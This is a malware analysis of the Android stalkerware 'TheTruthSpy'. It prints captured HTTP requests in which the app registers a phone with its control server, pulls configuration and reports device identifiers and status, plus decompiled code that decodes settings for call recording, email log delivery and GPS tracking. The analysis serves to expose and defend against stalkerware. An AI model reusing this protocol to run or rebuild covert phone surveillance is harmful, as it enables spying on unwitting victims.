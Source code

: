 ## Dissection of an infection, 'TheTruthSpy'.

This will be an indepth look at what happens immediately after installation of 'TheTruthSpy', both on the Android phone itself and over the network.

Immediately after the apk installation the app contacts the control server and transmits the 16 character hex value of the device's 'Secure Android ID'. 'Secure Android ID' is used by TheTruthSpy as an identifier for victim's devices, it is a 64-bit number that is generated randomly when the Android device is first booted. 

Below we can see this initial request and the response that the deviceid is not currently registered with TheTruthSpy.

```
GET /protocols/check_device_registered.aspx?deviceid=d4bc-803e-25f0-8913 HTTP/1.1
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 15:34:36 GMT

0
The device does not exist in the system.
```

The app then registers the phone with the email address and password provided by the user, along with the deviceid, the server responds that it has received this information.

```
GET /protocols/device_register.aspx?username=emillio.esneider@plutocow.com&password=p4ssw0rd&deviceid=d4bc-803e-25f0-8913 HTTP/1.1
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:03:40 GMT

1
```

The app then contacts getsetting.aspx, sending the deviceid, current time and operating system. It then receives back an initial configuration which details the last recorded instance of various recorded events, the email address to send updates to and a lot of configuration information in the format <*#>, with digits following the hash detailing various options.

```
POST /protocols/getsetting.aspx HTTP/1.1
Content-Length: 69
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17+08%3A03%3A50&os=ADHTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:03:52 GMT

<protocol-version:20150201-0900>,<*#3>,<*#6>,<*#8>,<*#11>,<*#13>,<*#15>,<*#21>,<*#24>,<*#27>,<*#30><0><50>,
<*#31><15>,<*#32><30>,<*#52>,<*#54>,<*#56>,<*#58>,<*#60>,<*#62>,<*#64>,<*#66>,<*#68>,<*#70>,<*#72>,<*#74>,
<*#352>,<*#78>,<*#82>,<*#84>,<*#86>,<*#88>,<*#94><#2013*>,<*#95><>,<*#96><>,<*#97><>,<*#102>,<*#111>
<WiFi/CellularData>,<*#76>,<*#372>,<*#376>,<*#382>,<*#386>,<*#392>,<*#394>,<*#396>,<*#398>,<*#1001>,<*#33>
<sms=2018-11-17 23:03:52;call=2018-11-17 23:03:52;contact=2018-11-17 23:03:52;app=2018-11-17 23:03:52;
photo=2018-11-17 23:03:52;url=2018-11-17 23:03:52;notes=2018-11-17 23:03:52;whatsapp=2018-11-17 23:03:52;
yahoo=2018-11-17 23:03:52;viber=2018-11-17 23:03:52;facebook=2018-11-17 23:03:52;skype=2018-11-17 23:03:52;
tango=2018-11-17 23:03:52;wechat=2018-11-17 23:03:52;ola=2018-11-17 23:03:52;hangouts=2018-11-17 23:03:52;
bbm=2018-11-17 23:03:52;line=2018-11-17 23:03:52;kik=2018-11-17 23:03:52;twitter=2018-11-17 23:03:52;
instagram=2018-11-17 23:03:52;snapchat=2018-11-17 23:03:52>,delivery-logs-to-email=emillio.esneider@plutocow.com
```

Decoding the configuration above is a little lengthy, but performing static analysis on TheTruthSpy.apk we can see what some of these options correspond to. 

                            ```
                } else {
                    if (!stringBuilder2.equals("<*#4>")) {
                        if (!stringBuilder2.equals("<*#3>")) {
                            if (stringBuilder2.equals("<*#84>")) {
                                edit.putBoolean("delivery_log_by_email_active", false);
                            } else if (stringBuilder2.equals("<*#83>")) {
                                edit.putBoolean("delivery_log_by_email_active", true);
                            } else if (stringBuilder2.equals("<*#7>")) {
                                edit.putBoolean("is_record_call_active", true);
                            } else if (stringBuilder2.equals("<*#8>")) {
                                edit.putBoolean("is_record_call_active", false);
                            } else if (stringBuilder2.equals("<*#30>")) {
                                stringBuilder2 = split2[1].substring(1, split2[1].length()).trim();
                                trim = split2[2].substring(1, split2[2].length()).trim();
                                if (stringBuilder2.length() <= 0 || trim.length() <= 0) {
                                    edit.putLong("gps_distance_filter", 200);
                                } else {
                                    edit.putLong("gps_distance_filter", Long.parseLong(stringBuilder2));
                                }
                                ```

So we can see that call recording is off, there is no "monitor number" configured for covert phone calls to eavesdrop and the delivery of logs by email is disabled also that gps_distance_filter is set to only send updates if the phone moves over 500 meters. There are many, many more configuration options shown, explaining them all is beyond the scope of this document.

The next post (below) to setsetting.aspx is transmitting the following string, URL encoded 'deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17 08:03:58&t=1&country=us¶ms=<*#11>,<*#13>,<*#68>,<*#58>,<*#76>,<*#15>,<*#21>,<*#52>,<*#56>,<*#60>,<*#31><15>,<*#31><30>,<*#94><#2013*>,<*#95><>,<*#97><>,<*#98><Full Android on Emulator>,<*#99><357242043237511>&os=Android 4.1.1#8.10'

```
POST /protocols/setsetting.aspx HTTP/1.1
Content-Length: 455
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17+08%3A03%3A58&t=1&country=us&params=%3C*%2311%3E%2C%3C*%2313%3E%2C%3C*%2368%3E%2C%3C*%2358%3E%2C%3C*%2376%3E%2C%3C*%2315%3E%2C%3C*%2321%3E%2C%3C*%2352%3E%2C%3C*%2356%3E%2C%3C*%2360%3E%2C%3C*%2331%3E%3C15%3E%2C%3C*%2331%3E%3C30%3E%2C%3C*%2394%3E%3C%232013*%3E%2C%3C*%2395%3E%3C%3E%2C%3C*%2397%3E%3C%3E%2C%3C*%2398%3E%3CFull+Android+on+Emulator%3E%2C%3C*%2399%3E%3C357242043237511%3E&os=Android+4.1.1%238.10HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:04:01 GMT

1
```

```
POST /protocols/set_device_status.aspx HTTP/1.1
Content-Length: 203
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&status=+start+working+on+2019-01-17+08%3A04%3A04&is_rooted_or_jailbroken=0&gps_option_turned=1&battery=100&wifi_enabled=0&network_available=1&datetime=2019-01-17+08%3A04%3A04HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:04:03 GMT

1
```

